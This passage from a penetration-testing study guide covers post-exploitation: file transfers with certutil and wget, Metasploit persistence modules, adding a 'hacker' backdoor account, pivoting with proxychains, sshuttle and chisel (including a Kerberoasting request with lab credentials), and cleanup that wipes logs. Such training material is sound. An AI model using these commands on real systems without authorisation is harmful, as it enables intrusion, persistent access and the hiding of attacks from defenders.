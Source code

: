 # 5. Post Exploitation

## File transfers

```bash
# HTTP via Python
python3 -m http.server 80

# Windows - Certutil
certutil.exe -urlcache -f <URL-TO-FILE>

# Linux
wget <URL>

...
```

---

## Maintain access

➡️ **Maintaining access** during a penetration test refers to the techniques used to **retain control over a compromised system** for extended periods, even after reboots or security updates. This is a crucial phase in **post-exploitation**, allowing testers to simulate real-world attacker **persistence** and assess an organization's ability to detect and respond to such threats.

**Metasploit persistence methods**

1. **Persistence scripts:**
   - `run persistence -h` → Displays available persistence options.
   - `exploit/windows/local/persistence` → Creates a **backdoor** using Metasploit.
   - `exploit/windows/local/registry_persistence` → Modifies **Windows Registry** for persistence.
2. **Scheduled Tasks:**
   - `run scheduleme` → Creates a **scheduled task** to execute payloads periodically.
   - `run schtaskabuse` → **Abuses schtasks** to maintain system access.
3. **User Account Manipulation:**
   - `net user hacker password123 /add` → Creates a **new user account** for persistent access.

These techniques help attackers maintain **long-term access** even after a system reboot or network disconnection. Monitoring scheduled tasks, registry changes, and unauthorized user accounts is crucial to detecting and preventing persistence mechanisms.

---

## Pivoting

➡️ **Pivoting** is a technique used in penetration testing to **move laterally** within a network after compromising an initial system. It allows an attacker to **route traffic through the compromised machine** to access other internal systems that are otherwise unreachable from the external network.

### proxychains

➡️ [proxychains](https://github.com/haad/proxychains) - tool that forces any TCP connection initiated by an application to route through user-defined proxy servers, such as TOR or other SOCKS4, SOCKS5, or HTTP(S) proxies

```bash
cat /etc/proxychains4.conf
# check socks4 port

ssh -f -N -D 9050 -i pivot <USER>@<VICTIM-IP>

# e.g. pivoting
proxychains nmap -p <PORT> <VICTIM-IP>

proxychains GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip <IP> -request

proxychains xfreerdp /u:administrator /p:'p@ssword' /v:<IP>

proxychains firefox
```

### sshuttle

➡️ [sshuttle](https://github.com/sshuttle/sshuttle) - transparent proxy server that forwards over SSH, supports DNS tunneling

```bash
sshuttle -r <USER>@<IP> <NEW-NETWORK/24> --ssh-cmd "ssh -i pivot"
# keep this terminal open
# run commands in other terminals
```

### chisel

➡️ [chisel](https://github.com/jpillora/chisel) - a fast TCP/UDP tunnel, transported over HTTP, secured via SSH

---

## Cleaning up

➡️ The **cleanup phase** is the final step in a penetration test, ensuring that **no traces** of testing activities remain on the target system or network.

The goal is to restore the environment to its original state before the test, minimizing security risks and avoiding any disruption.

- **Remove files** – Delete scripts, executables, and added files
- **Eliminate persistence** – Remove malware, backdoors, tasks, and added user accounts
- **Restore settings** – Revert settings, security configs, firewall rules, and permissions.
- **Clear tracks** – Wipe command history and logs.

📌 From a hacker perspective, you need to "**make it look like you were never there**".

---

